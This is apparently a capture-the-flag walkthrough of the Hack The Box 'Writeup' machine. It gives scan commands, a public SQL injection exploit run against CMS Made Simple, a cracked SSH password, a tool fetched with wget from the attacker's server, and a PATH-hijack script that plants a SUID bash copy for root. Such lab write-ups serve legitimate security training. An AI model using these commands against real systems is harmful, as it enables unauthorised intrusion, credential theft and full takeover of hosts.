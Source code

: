# [Writeup](https://app.hackthebox.com/machines/Writeup)

```bash
nmap -p- --min-rate 10000 10.10.10.138 -Pn   
```

![alt text](img/image.png)

After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p22,80 10.10.10.138 -Pn
```

![alt text](img/image-1.png)


After observating content of `robots.txt` file, I browse `/writeup` endpoint and see different stuff here.


From `Page Source` , I see that this is `CMS Made Simple`.

![alt text](img/image-2.png)


While I search publicly known exploit for this CMS, I found `Unauthenticated SQLI` vulnerability.

![alt text](img/image-3.png)


I use exploit from [here](https://github.com/Mahamedm/CVE-2019-9053-Exploit-Python-3.git).

```bash
python3 csm_made_simple_injection.py -u http://10.10.10.138/writeup --crack --wordlist /usr/share/wordlists/rockyou.txt
```

![alt text](img/image-4.png)



Let's login into machine via `ssh` by using above credentials.

jkr: 62def4866937f08cc13bab43bb14e6f7  (raykayjay9)

user.txt

![alt text](img/image-5.png)


Let's upload `pspy` script into machine to see background jobs.

First, I need to open http.server.
```bash
python3 -m http.server --bind 10.10.14.18 8080
```

![alt text](img/image-6.png)

Second, I need to download this file via `wget` command as below.
```bash
wget http://10.10.14.18:8080/pspy64
```

![alt text](img/image-7.png)


I just find one thing that while I join into machine via `ssh` there are root scripts are runned automatically.

![alt text](img/image-8.png)


When a user logs in, root runs `sh`, which runs /usr/bin/env, which provides a specific path and runs `run-parts` on the `update-motd.d` folder. 

I’ll immediately notice that the `$PATH` includes at the front the two folders I can `write` to.

I will write below malicious script to `/usr/local/bin/run-parts` make sure it’s executable.

```bash
echo -e '#!/bin/bash\n\ncp /bin/bash /bin/dr4ks\nchmod u+s /bin/dr4ks' > /usr/local/bin/run-parts; chmod +x /usr/local/bin/run-parts
```

![alt text](img/image-9.png)


Let's again join into machine via `ssh` to make this script trigger.

This script triggered and give `SUID` binary into copied `/bin/bash` file.

![alt text](img/image-10.png)


Let's execute this via `-p` option and get root shell.


root.txt

![alt text](img/image-11.png)